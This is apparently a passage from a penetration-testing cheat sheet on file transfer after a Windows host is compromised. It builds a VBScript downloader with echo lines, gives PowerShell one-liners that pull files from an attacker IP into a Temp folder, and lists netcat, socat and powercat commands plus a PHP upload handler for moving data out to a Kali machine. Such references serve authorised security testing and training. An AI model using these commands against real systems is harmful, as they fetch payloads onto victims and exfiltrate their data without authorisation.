 ```
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Run VBS script to download file
```
cscript wget.vbs http://<IP>/<FILE> <FILE>
```

#### Powershell download file
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/<FILE>', '<FILE>')
```
```
powershell -c "Invoke-WebRequest -Uri 'http://<IP>/<FILE>' -OutFile 'C:\Windows\Temp\<FILE>'"
```

### Upload files
#### Netcat listener for file
```
nc -nlvp <PORT> > <FILE>
```

#### Netcat send file
```
nc -nv <IP> <PORT> <FILE>
```

#### Socat listener for file to send
```
sudo socat TCP4-LISTEN:<PORT>,fork file:<FILE>
```

#### Socat get file
```
socat TCP4:<IP>:<PORT> file:<FILE>,create
```

#### Powercat send file
```
powercat -c <IP> -p <PORT> -i <FILE>
```

#### Upload Windows data through HTTP Post request
make /var/www/upload.php on kali
```
<?php
$uploaddir = '/var/www/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

